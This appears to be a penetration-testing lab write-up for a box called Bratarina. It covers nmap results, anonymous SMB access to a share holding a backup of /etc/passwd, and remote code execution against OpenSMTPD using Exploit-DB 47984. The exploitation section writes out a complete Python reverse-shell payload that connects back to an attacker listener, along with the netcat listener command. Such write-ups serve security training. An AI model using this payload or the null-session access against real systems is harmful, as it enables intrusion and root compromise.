 ```yaml
---
description: 12/1/2022
---
```


# Bratarina

## Information Gathering

Scanned all TCP ports:

```
PORT    STATE  SERVICE     VERSION
22/tcp  open   ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbdd2cea2f85c589bcfce9a338f0d750 (RSA)
|   256 e3b765c2a78e4529bb62ec301aebed6d (ECDSA)
|_  256 d55b795bce48d85746db594fcd455def (ED25519)
25/tcp  open   smtp        OpenSMTPD
| smtp-commands: bratarina Hello nmap.scanme.org [192.168.49.175], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
53/tcp  closed domain
80/tcp  open   http        nginx 1.14.0 (Ubuntu)
|_http-title:         Page not found - FlaskBB        
|_http-server-header: nginx/1.14.0 (Ubuntu)
445/tcp open   netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m14s, median: 0s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-12-01T23:59:59
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: bratarina
|   NetBIOS computer name: BRATARINA\x00
|   Domain name: \x00
|   FQDN: bratarina
|_  System time: 2022-12-01T19:00:01-05:00
```

Enumerated UDP ports:

```
```

Notes:

* 80/HTTP - <mark style="color:yellow;">nginx 1.14.0</mark>
  * <mark style="color:yellow;">Lots of broken links and other functionality</mark>
  * <mark style="color:yellow;">Viewed source code</mark>
* 25/SMTP <mark style="color:yellow;">OpenSMTPD 2.0.0</mark>
  * <mark style="color:yellow;">Searchsploit returns numerous exploits</mark>
* 445/SMB <mark style="color:yellow;">Samba 4.7.6</mark>
  * <mark style="color:yellow;">Enum4linux null shares</mark>

## Enumeration

### Port 80 - HTTP (nginx 1.14.0)

Dirsearch:

```
```

### Port 445 - Samba

Enum4Linux:

```
enum4linux 192.168.175.71
```

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption><p>backups share</p></figcaption></figure>

smbclient (Null authentication)

```
smbclient '\\\\192.168.175.71\\backups'
Password:(press enter)
smb: \>get passwd.bak
```

* We see passwd.bak
* It is a backup of /etc/passwd

passwd.bak:

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption><p>Contents of /etc/passwd backup</p></figcaption></figure>

## Exploitation

### OpenSMTPD 6.6.1 - Remote Code Execution

{% embed url="https://www.exploit-db.com/exploits/47984" %}
PoC
{% endembed %}

Syntax for Exploit:

{% code overflow="wrap" %}
```
python3 47984 192.168.175.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.175\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'
```
{% endcode %}

Nc Listener:

```
sudo nc -lnvp 80
```

## Privilege Escalation

None, landed as root

## Proofs

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption><p>Proof.txt</p></figcaption></figure>
